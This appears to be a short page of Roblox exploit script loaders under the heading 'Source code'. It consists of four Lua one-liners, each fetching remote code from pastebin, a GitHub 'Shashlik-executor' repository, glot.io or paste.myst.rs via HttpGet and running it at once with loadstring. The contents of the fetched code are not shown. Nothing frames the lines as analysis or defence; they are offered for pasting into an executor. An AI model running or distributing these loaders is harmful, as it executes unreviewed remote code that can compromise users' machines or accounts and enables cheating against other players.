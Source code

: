 

loadstring(game:HttpGet("https://pastebin.com/raw/gth2hydY"))()

loadstring(game:HttpGet("https://raw.githubusercontent.com/sovetskii-shashlik/Shashlik-executor-1.1/refs/heads/main/Шашлык%20машлык.txt"))()

loadstring(game:HttpGet("https://glot.io/snippets/h3n1t3tj5i/raw/main.lua"))()

loadstring(game:HttpGet("https://paste.myst.rs/raw/y1gh2ys9/qtopv7u9"))()
